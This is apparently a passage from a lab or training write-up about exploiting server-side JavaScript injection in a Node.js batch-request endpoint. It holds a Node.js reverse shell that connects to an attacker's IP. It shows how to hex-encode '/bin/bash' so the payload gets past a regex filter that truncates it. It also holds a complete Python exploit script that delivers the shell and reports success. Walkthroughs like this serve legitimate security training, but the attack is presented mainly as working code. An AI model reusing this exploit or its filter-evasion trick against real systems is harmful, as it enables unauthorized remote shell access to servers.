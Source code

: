 ## Solving The Truncation Caveat
We can start by updating our script, with the following JavaScript reverse shell:

```JavaScript
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(5555, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

We will be using this reverse shell, however, it will be in our own python script, and executing the reverse shell.
However, we run into the following error:

```JSON
{"statusCode":500,"error":"Internal Server Error","message":"An internal server error occurred"}
```

To review our error, we can simply add a debugging statement, right before our eval function so we know what's getting executed on the server:

![](../../03.%20Screenshots/t3-ss13.png)

Reviewing the error:

![](../../03.%20Screenshots/t3-ss14.png)

We see that the our complete injection is being truncated, due to the "/bin/bash" slashes.
We can solve this by using "\\\\x2fbin\\\\x2fbash" instead of "/bin/bash", as hex encoded characters are allowed in JavaScript, and thus bypass the regex parsing restrictions.

Our final script will look like as follows:

```python
import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "\\\\x2fbin\\\\x2fbash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'

shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```

## The Shell
Executing our python script with the right arguments:

![](../../03.%20Screenshots/t3-ss15.png)

We get a shell back:

![](../../03.%20Screenshots/t3-ss16.png)